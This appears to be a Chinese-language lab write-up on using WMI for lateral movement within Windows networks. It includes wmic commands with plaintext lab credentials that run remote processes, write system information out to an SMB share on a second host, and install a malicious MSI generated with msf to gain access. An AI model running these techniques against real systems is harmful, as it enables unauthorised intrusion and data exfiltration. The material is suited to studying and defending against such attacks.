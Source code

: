 ### What is WMI

根据官方的介绍

Windows Management Instrumentation (WMI) 是 Microsoft 对基于 Web 的企业管理 (WBEM) 的实现，WBEM 是一项业界倡议，用于为访问企业环境中的管理信息开发一项标准技术。 WMI 使用通用信息模型 (CIM) 行业标准来表示系统、应用程序、网络、设备和其他托管组件。 CIM 由分布式管理任务组 ([DMTF](https://www.dmtf.org/standards/wsman)) 开发和维护。

从Windows 98开始，Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。

#### 什么情况会用到WMI

由于PsExec被大量的软件监测，且会产生大量的日志文件，越来越多的工具开始使用WMI进行横向移动

常规的利用方法分为两种

+ 利用WMI的类方法进行远程执行，例如：Win32_Process类中的Create方法能够在远程服务器创建进程，Win32_Product类中的Install方法可以在远程主机上安装恶意MSI文件
+ 远程部署WMI时间订阅，在特定时间触发攻击

#### 利用条件

远程放行135端口(WMI的默认端口)

远程主机的WMI服务为开启状态(默认开启)

### 常规利用方法

在windows上通过wmic.exe和powershell cmdlet来使用WMI数据和执行WMI方法

+ 执行远程查询

  ```shell
  wmic /node:192.168.30.10 /user:Administrator /password:uu2fu3o@admin process list brief
  #/node:指定远程主机 /user:指定用户名 /password：指定用户密码
  ```

  ![pc-wmic-dc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/pc-wmic-dc.png)

+ 创建远程服务

  ```
  wmic /node:192.168.30.10 /user:Administrator /password:uu2fu3o@admin process call create "cmd.exe /c systeminfo > \\192.168.30.20\smb\systeminfo.txt"
  ```

  ![pc-wmic-to-dc-systeminfo](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/pc-wmic-to-dc-systeminfo.png)

​	由于wmic执行系统命令并没有回显，所以可以通过写入共享文件夹的形式来读取

​	该方法似乎并不能直接创建位于SMB共享文件夹中的shell进程(好像成功了一次，但后面并没有再成功接收到shell了)

+ 远程安装MSI文件

  1.利用msf或其他工具生成恶意msi文件，并开启监听

  ![msf-wmic-listening](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/msf-wmic-listening.png)

​		2.将恶意文件上传至跳板机已经搭建好的共享服务文件夹，通过调用Win32_Product.Install方法使远程主机安装恶意msi文件来获取		权限![	](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/c-share.png)
